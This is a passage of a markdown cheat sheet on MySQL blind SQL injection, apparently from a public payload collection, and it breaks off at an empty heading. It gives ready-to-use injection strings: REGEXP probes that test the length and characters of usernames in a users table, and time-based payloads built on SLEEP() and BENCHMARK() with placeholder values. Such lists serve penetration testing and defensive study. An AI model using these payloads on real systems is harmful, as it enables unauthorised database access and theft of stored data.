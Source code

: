 In MySQL, the `LIKE` operator can be used to perform pattern matching in queries. The operator allows the use of wildcard characters to match unknown or partial string values. This is especially useful in a blind SQL injection context when an attacker does not know the length or specific content of the data stored in the database.

Wildcard Characters in LIKE:

* **Percentage Sign** (`%`): This wildcard represents zero, one, or multiple characters. It can be used to match any sequence of characters.
* **Underscore** (`_`): This wildcard represents a single character. It's used for more precise matching when you know the structure of the data but not the specific character at a particular position.

```sql
SELECT cust_code FROM customer WHERE cust_name LIKE 'k__l';
SELECT * FROM products WHERE product_name LIKE '%user_input%'
```


### MySQL Blind with REGEXP

Blind SQL injection can also be performed using the MySQL `REGEXP` operator, which is used for matching a string against a regular expression. This technique is particularly useful when attackers want to perform more complex pattern matching than what the `LIKE` operator can offer.

| Payload | Description |
| --- | --- |
| `' OR (SELECT username FROM users WHERE username REGEXP '^.{8,}$') --` | Checking length |
| `' OR (SELECT username FROM users WHERE username REGEXP '[0-9]') --`   | Checking for the presence of digits |
| `' OR (SELECT username FROM users WHERE username REGEXP '^a[a-z]') --` | Checking for data starting by "a" |


## MYSQL Time Based

The following SQL codes will delay the output from MySQL.

* MySQL 4/5 : [`BENCHMARK()`](https://dev.mysql.com/doc/refman/8.4/en/select-benchmarking.html)
    ```sql
    +BENCHMARK(40000000,SHA1(1337))+
    '+BENCHMARK(3200,SHA1(1))+'
    AND [RANDNUM]=BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))
    ```

* MySQL 5: [`SLEEP()`](https://dev.mysql.com/doc/refman/8.4/en/miscellaneous-functions.html#function_sleep)
    ```sql
    RLIKE SLEEP([SLEEPTIME])
    OR ELT([RANDNUM]=[RANDNUM],SLEEP([SLEEPTIME]))
    XOR(IF(NOW()=SYSDATE(),SLEEP(5),0))XOR
    AND SLEEP(10)=0
    AND (SELECT 1337 FROM (SELECT(SLEEP(10-(IF((1=1),0,10))))) RANDSTR)
    ```

### Using SLEEP in a Subselect

